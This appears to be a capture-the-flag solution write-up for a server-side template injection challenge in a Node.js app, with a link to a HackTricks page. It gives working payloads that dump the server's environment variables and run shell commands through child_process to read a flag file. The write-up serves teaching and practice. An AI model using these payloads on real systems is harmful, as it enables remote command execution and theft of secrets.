 # Solution

1. Access to `/`
2. Try input text, echoes back input => injection vuln ?
3. Try most common template injection
4. Try `#{7*7}`, it evaluate !
5. Try to list the env vars `#{(function(){return JSON.stringify(process.env)})()}`, it works !
6. Check env vars for FLAG
7. Access FLAG_PATH and cat the file `/tmp/.file64.32738` using
```
#{(function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").execSync('cat /tmp/.file64.32738'); return sh;})()}
```
8. Get the flag

# Explanation

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection